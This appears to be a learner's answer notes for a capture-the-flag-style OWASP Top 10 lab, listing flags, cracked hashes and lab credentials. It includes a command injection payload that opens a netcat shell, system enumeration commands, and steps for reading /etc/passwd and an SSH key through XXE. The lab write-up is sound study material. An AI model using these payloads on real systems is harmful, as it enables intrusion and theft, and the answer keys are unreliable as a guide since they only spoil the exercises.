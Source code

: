 # OWASP Top 10

## [Task 1] Introduction

## [Task 2] Accessing machines

## [Task 3] [Severity 1] Injection

## [Task 4] [Severity 1] OS Command Injection
- `whoami`
- `;nc -e /bin/bash`

## [Task 5] [Severity 1] Command Injection Practical
Commands to try
Linux
- `whoami`
- `id`

- `ifconfig/ip addr`
- `uname -a`
- `ps -ef`

Windows
- `whoami`
- `ver`
- `ipconfig`
- `tasklist`
- `netstat -an`

1. What strange text file is in the website root directory?
  - drpepper.txt
2. How many non-root/non-service/non-daemon users are there?
  - 0
3. What user is this app running as?
  - www-data
4. What is the user's shell set as?
  - /usr/sbin/nologin
5. What version of Ubuntu is running?
  - 18.04.4
6. Print out the MOTD. What favorite beverage is shown?
  - dr pepper

## [Task 6] [Severity 2] Broken Authentication

## [Task 7] [Severity 2] Broken Authentication Practical
1. What is the flag that you found in darren's account?
  - fe86079416a21a3c99937fea8874b667
2. Now try to do the same trick and see if you can login as arthur.
3. What is the flag that you found in arthur's account?
  - d9ac0f7db4fda460ac3edeb75d75e16e

## [Task 8] [Severity 3] Sensitive Data Exposure (Introduction)

## [Task 9] [Severity 3] Sensitive Data Exposure (Supporting Material 1)

## [Task 10] [Severity 3] Sensitive Data Exposure (Supporting Material 2)

## [Task 11] [Severity 3] Sensitive Data Exposure (Challenge)
1. Have a look around the web app. The developer has left themselves a note
   indicating that there is sensitive data in a specific directory. What is the
   name of the mentioned directory?
  - /assets
2. Navigate to the directory you found in question one. What file stands out as
   being likely to contain sensitive data?
  - webapp.db
3. Use the supporting material to access the sensitive data. What is the
   password hash of the admin user?
  - 6eea9b7ef19179a06954edd0f6c05ceb
4. Crack the hash. What is the admin's plaintext password?
  - qwertyuiop
5. Login as the admin. What is the flag?
  - THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}

## [Task 12] [Severity 4] XML Exernal Entity

## [Task 13] [Severity 4] XML External Entity - eXtensible Markup Language
1. Full form of XML
  - xtensible Markup Language
2. Is it compulsory to have XML prolog in XML documents?
  - no
3. Can we validate XML documents against a schema?
  - yes
4. How can we specify XML version and encoding in XML documents?
  - XML prolog

## [Task 14] [Severity 4] XML External Entity - DTD
1. How do you define a new ELEMENT?
  - !ELEMENT
2. How do you define a ROOT element?
  - !DOCTYPE
3. How do you define a new ENTITY?
  - !ENTITY

## [Task 15] [Severity 4] XML External Entity - XXE Payload

## [Task 16] [Severity 4] XML External Entity - Exploiting
1. Try to display your own name using any payload.
2. See if you can read the /etc/passwd.
3. What is the name of the user in /etc/passwd?
  - falcon
4. Where is falcon's SSH key located?
  - /home/falcon/.ssh/id_rsa
5. What are the first 18 characters for falcon's private key?
  - MIIEogIBAAKCAQEA7b

## [Task 17] [Severity 5] Broken Access Control
- [reference to scenarios](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)

## [Task 18] [Severity 5] Broken Access Control (IDOR Challenge)
1. Read and understand how IDOR works.
2. Deploy the machine and go to http://machine-ip - Login with the username being _noot_ and the password _test1234_.
3. Look at other user's notes. What is the flag?
- flag{fivefourthree}
